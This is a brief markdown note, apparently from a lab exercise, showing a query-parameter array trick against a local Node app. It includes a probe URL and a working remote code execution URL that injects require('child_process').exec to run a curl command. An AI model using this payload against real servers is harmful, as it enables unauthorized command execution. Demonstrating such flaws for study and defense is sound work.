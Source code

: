 ## Check for exploit
Node allows variables to be parsed as an array not a string
```
http://localhost:3000/?name[]=&name[]='
```

Becuase of this remote code execution is possible:
```
http://localhost:3000/?name[]=x&name[]=y'-require('child_process').exec('curl+-XPOST+localhost%3A3000+-d+%22Badguys%22')-'
```

We can use this to start a container

